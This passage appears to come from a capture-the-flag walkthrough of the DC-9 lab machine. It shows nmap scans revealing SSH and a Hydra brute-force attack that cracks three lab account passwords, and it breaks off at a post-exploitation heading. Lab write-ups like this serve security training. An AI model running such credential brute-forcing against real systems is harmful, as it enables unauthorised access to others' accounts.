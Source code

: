```bash
PORT     STATE  SERVICE
9842/tcp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds


```

Then we rescan the target and now see that port 22 is open.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ nmap -p22 192.168.160.209
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-09 22:57 EST
Nmap scan report for 192.168.160.209
Host is up (0.055s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.14 seconds
```

Now we can run Hydra against the target on SSH/22 with the _user_ and _pass_ files we created earlier with _SQLMap_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ hydra -L users -P pass ssh://192.168.160.209
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-09 23:00:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 324 login tries (l:18/p:18), ~21 tries per task
[DATA] attacking ssh://192.168.160.209:22/
[22][ssh] host: 192.168.160.209   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.160.209   login: joeyt   password: Passw0rd
[STATUS] 272.00 tries/min, 272 tries in 00:01h, 54 to do in 00:01h, 14 active
[22][ssh] host: 192.168.160.209   login: janitor   password: Ilovepeepee
1 of 1 target successfully completed, 3 valid passwords found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-09 23:01:26

```

# Post-Exploitation

---